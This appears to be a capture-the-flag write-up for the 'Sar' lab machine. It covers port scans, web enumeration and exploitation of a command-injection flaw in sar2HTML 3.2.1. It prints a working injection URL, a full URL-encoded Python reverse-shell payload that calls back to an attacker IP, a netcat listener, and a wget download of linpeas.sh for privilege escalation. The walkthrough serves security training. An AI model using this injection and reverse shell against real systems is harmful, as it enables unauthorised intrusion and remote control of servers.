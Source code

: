 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.223.35 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:39 EDT
Initiating Parallel DNS resolution of 1 host. at 00:39
Completed Parallel DNS resolution of 1 host. at 00:39, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:39
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:39, 0.18s elapsed (2 total ports)
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:39:56 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

```
> rustscan -u 5000 -p 22,80 -a 192.168.223.35 -- -Pn -sCV
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:41 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 00:41
Completed Parallel DNS resolution of 1 host. at 00:41, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:41
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:41, 0.18s elapsed (2 total ports)
Initiating Service scan at 00:41
Scanning 2 services on 192.168.223.35
Completed Service scan at 00:41, 6.37s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.223.35.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 5.23s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.72s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:41:07 EDT for 13s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy/WJJHLFdbwbJpTyRYhEyj2jZV024UPWIdXfNHxq45uh08jkihv3znZ98caLP/pz352c0ZYD31We0bTSbHyjQce2bSAJHubDYp13hU/P4tbV5GIJ72W2rWkLTslH/SJoHUSqlManB7ZzgVyU2KQ4fnNx/V1XGJYsshquRqTrXKeeal+yQvTC4gnsr8ENIGMq0yJnYxMAasx6kmSc+S+065Mie65xkyisFXo2MQyxzsFdCu2w1bYmb3pegYDm6Y0c/EJP0sxDizXVwkUOS0XSVdGuk3RUYjt5GQ2fL24ZsML6CwN+HD2ZTnD0FK90PQTLuvlp6BoI/ZWvIenNvu63
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgxutbLnN4K2tj6ZHzrlzTKS+RRuly+RkA0J63JsQFiwyvz4PqA64w/h0Se3gymZV6zJ9XBpS41b6IoEymeiSA=
|   256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM+5254x35Vwa2S7X73YLY87Q58qQOD9oQeSKMpmmT0o
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

TCP 80/HTTP
```
http://192.168.223.35/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/31152133-0eb4-4522-bc9e-f5956a2aff7d)

```
http://192.168.223.35/robots.txt
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e9abd33-9946-40ed-ab55-5f65f2817b7f)

```
http://192.168.223.35/sar2HTML/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/438bef78-7664-45e9-a7ce-b4bca7043cae)

```
> searchsploit sar2html 3.2.1
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e51793a-dee2-4983-b150-c920c143391e)

```
> searchsploit -m php/webapps/49344.py
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/c58c4b88-64cb-4113-b971-b841f661c5e8)
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/52e5d38e-d619-41e9-ad59-93883841f451)

Manual Exploitation
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/cb1df527-fa04-407d-b858-a46b74333ee8)
```
http://192.168.223.35/sar2HTML/index.php?plot=;whoami
```

Reverse Shell
```
http://192.168.223.35/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.231%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e84d691-8330-48c7-a59f-c9ce5965aaaa)

```
> rlwrap nc -nlvvp 9090
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/3796063f-129a-4c41-bbdf-c1eff80cf73b)

Privilege Escalation
LinPEAS
```
www-data@sar:/tmp$ wget http://192.168.45.231/linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/2af4b81a-f610-4e8e-9062-fedde44ca54d)

```
www-data@sar:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@sar:/tmp$ ./linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/04d98692-aaaa-4733-b86e-5ebb5e19cae4)
